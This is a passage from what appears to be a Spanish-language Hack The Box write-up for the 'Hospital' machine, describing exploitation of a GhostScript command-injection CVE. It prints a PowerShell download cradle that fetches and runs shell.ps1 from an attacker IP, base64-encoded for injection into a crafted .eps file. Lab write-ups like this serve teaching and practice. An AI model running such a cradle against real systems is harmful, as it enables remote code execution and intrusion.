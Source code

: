 Al investigar un poco sobre GhostScript, encontré un CVE que permitía la inyección de comandos.

![](/assets/img/HackTheBox/Hospital/cve-ghost.png)

Paso 1

Codifiqué en base64 un comando en PowerShell para descargar un archivo de la web.

```
echo 'IEX(New-Object Net.WebClient).downloadString("http://10.10.14.6/shell.ps1")' | iconv -t UTF-16le | base64 -w 0
```

![](/assets/img/HackTheBox/Hospital/paso_1.png)

Paso 2

Generé el archivo ".eps" e inyecté el comando malicioso de PowerShell en base64.

![](/assets/img/HackTheBox/Hospital/paso_2.png)
